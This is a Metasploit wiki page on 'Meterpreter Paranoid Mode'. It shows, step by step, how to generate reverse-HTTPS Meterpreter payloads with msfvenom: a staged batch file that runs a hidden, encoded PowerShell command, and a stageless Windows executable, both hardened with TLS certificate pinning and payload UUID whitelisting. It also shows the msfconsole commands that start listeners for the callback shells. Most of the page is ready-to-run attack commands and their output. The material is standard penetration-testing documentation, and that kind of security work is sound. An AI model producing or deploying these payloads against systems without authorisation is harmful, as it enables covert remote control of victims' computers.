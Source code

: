 ```yaml
---
layout: post
title:  "Meterpreter Paranoid Mode"
date:   "2015-06-30 16:36:46 -0500"
categories: article
---
```


In some scenarios, it pays to be paranoid. This also applies to generating and handling Meterpreter sessions. This document walks through the process of implementing a paranoid Meterpreter payload and listener.

### Create a SSL/TLS Certificate

For best results, use a SSL/TLS certificate signed by a trusted certificate authority. Failing that, you can still generate a self-signed unified PEM using the following command:
```
$ openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
rm -f www.example.com.key  www.example.com.crt
```

### Create a Paranoid Payload

For this use case, we will combine [[Payload UUID]] tracking and whitelisting with [TLS pinning](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-HTTP-Communication#tls-certificate-pinning). For a staged payload, we will use the following command:

```
$ ./msfvenom -p windows/meterpreter/reverse_winhttps LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./www.example.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f psh-cmd -o launch-paranoid.bat

$ head launch-paranoid.bat 
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcg...
```

A [[stageless|Meterpreter Stageless Mode]] version of this would look like the following:

```
$ ./msfvenom -p windows/meterpreter_reverse_https LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./www.example.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedStageless -f exe -o launch-paranoid-stageless.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 885314 bytes
Saved as: launch-paranoid-stageless.exe
```

### Create a Paranoid Listener

A staged payload would need to set the ```HandlerSSLCert``` and ```StagerVerifySSLCert``` options to enable TLS pinning and ```IgnoreUnknownPayloads``` to whitelist registered payload UUIDs:
```
$ ./msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_winhttps; set LHOST www.example.com; set LPORT 443; set HandlerSSLCert ./www.example.com.pem; set IgnoreUnknownPayloads true; set StagerVerifySSLCert true; run -j'
```

A stageless version is only slightly different:
```
$ ./msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter_reverse_https; set LHOST www.example.com; set LPORT 443; set HandlerSSLCert ./www.example.com.pem; set IgnoreUnknownPayloads true; set StagerVerifySSLCert true; run -j'
```
